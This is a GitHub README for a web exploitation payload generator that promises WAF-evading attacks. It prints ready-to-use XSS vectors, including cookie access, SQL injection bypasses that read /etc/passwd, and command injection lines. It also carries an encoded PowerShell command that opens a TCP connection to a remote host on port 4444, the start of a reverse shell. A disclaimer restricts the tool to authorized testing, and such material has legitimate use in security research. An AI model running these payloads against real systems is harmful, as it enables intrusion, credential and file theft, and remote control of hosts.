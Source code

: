 # Web Exploitation Payload Generator 🛡️

![Python Version](https://img.shields.io/badge/python-3.8+-blue.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)
[![Documentation](https://img.shields.io/badge/docs-Advanced-blueviolet)](https://github.com/yourusername/web-exploitation-payload-generator/wiki)

**Advanced Modular Payload Generation Framework for Web Application Security Testing**

> "The ultimate toolkit for security professionals to generate, test, and analyze evasion-ready payloads for critical web vulnerabilities"

## Table of Contents
- <a href="#key-features" style="color: #1e90ff;">Key Features</a>
- <a href="#installation" style="color: #1e90ff;">Installation</a>
- <a href="#usage-examples" style="color: #1e90ff;">Usage Examples</a>
- <a href="#payload-modules" style="color: #1e90ff;">Payload Modules</a>
- <a href="#api-integration" style="color: #1e90ff;">API Integration</a>
- <a href="#sample-outputs" style="color: #1e90ff;">Sample Outputs</a>
- <a href="#contributing" style="color: #1e90ff;">Contributing</a>
- <a href="#license" style="color: #1e90ff;">License</a>
- <a href="#legal-disclaimer" style="color: #1e90ff;">Legal Disclaimer</a>

<a id="key-features"></a>
## Key Features ✨

| Feature | Description | Advanced Capabilities |
|---------|-------------|----------------------|
| **XSS Payloads** | Reflected, Stored, DOM-based payloads | SVG/srcdoc/null-byte bypasses, JSFuck obfuscation |
| **SQL Injection** | Error-based, Union-based, Blind SQLi | WAF evasion with versioned comments, whitespace bypass |
| **Command Injection** | Linux/Windows payload variants | Encoding bypasses, argument splitting |
| **Payload Processing** | Base64/URL/Hex/Unicode encoding | 3-tier obfuscation engine with null bytes |
| **Tool Integration** | Burp Suite & OWASP ZAP API | Automated payload delivery to security tools |
| **Enterprise Output** | CLI, JSON, clipboard | Customizable templates, batch processing |

<a id="installation"></a>
## Installation 🚀

```bash
# Clone repository
git clone https://github.com/ameer4k/WAFBreaker.git
cd WAFBreaker

# Install dependencies
pip install -r requirements.txt

# Launch tool
python main.py [CLI OPTIONS]  # Command-line interface
python main.py                # Graphical interface
<a id="usage-examples"></a>

Usage Examples 🧪
CLI Interface (Penetration Testing)
bash
# Generate SQLi payloads with WAF bypass in JSON format
python main.py --type sqli --technique union --bypass --output json > payloads.json

# Create obfuscated XSS payloads and send to Burp Suite
python main.py --type xss --obfuscate 3 --burp http://localhost:8080

# Generate Windows command injection payloads with Base64 encoding
python main.py --type cmdi --os windows --encode base64
GUI Interface (Security Training)
https://via.placeholder.com/800x500.png?text=Payload+Generator+GUI+Interface
Interactive payload generation with real-time preview

<a id="payload-modules"></a>

Payload Modules 🔍
1. XSS Payload Generator
html
<!-- Sample DOM-based XSS with evasion -->
<svg/onload=alert`${document.domain}`>
<img src=x oneerror=alert(1)>
<script>/*!*/al\u0065rt(1)/*!*/</script>
2. SQL Injection Engine
sql
-- WAF Bypass Examples
1'/*!50000UNION*//*!50000SELECT*/@@version,2,3-- -
id=1' AND 1=(SELECT LOAD_FILE('/etc/passwd')) -- 
' OR 1=1 /*!0aNd*/ '1'='1
3. Command Injection
bash
# Linux payloads
;cat /etc/passwd
`echo d2hvYW1p | base64 -d`  # whoami

# Windows bypasses
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxADAAIgAsADQANAA0ADQAKQA=
<a id="api-integration"></a>

API Integration ⚙️
python
# Send payloads directly to Burp Suite
from api_integration import BurpSuiteAPI

burp = BurpSuiteAPI("http://localhost:8080")
for payload in generated_payloads:
    burp.send_to_repeater(payload)
<a id="sample-outputs"></a>

Sample Outputs 📤
JSON Export:

json
{
  "module": "XSS",
  "technique": "DOM-based",
  "payloads": [
    "<svg onload=alert(document.domain)>",
    "<img src=x:g onerror=\"eval(atob('YWxlcnQoJ1hTUycp'))\">",
    "javascript:alert`${btoa(document.cookie)}`"
  ]
}
Command-Line Output:

text
[1] ' UNION SELECT @@version,user() -- 
[2] id=1'/*!50000UNION*//*!50000SELECT*/1,table_name,3 FROM information_schema.tables-- -
[3] ' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --
<a id="contributing"></a>

Contributing 🤝
We welcome security researchers and developers to contribute:

Report issues and suggest features

Submit pull requests with new payload modules

Improve evasion techniques

Add support for additional security tools

See our Contribution Guidelines for details.

<a id="license"></a>

License 📜
This project is licensed under the MIT License - see the LICENSE file for details.

<a id="legal-disclaimer"></a>

Legal Disclaimer ⚠️
Important: This tool is intended solely for:

Educational purposes

Security research

Authorized penetration testing

Improving defensive strategies

Never use this tool on systems without explicit written permission. The developers assume no liability and are not responsible for any misuse or damage caused by this software.
![Grappph (1)](https://github.com/user-attachments/assets/ffd13562-a0e1-408b-b0ab-9f716b04d145)


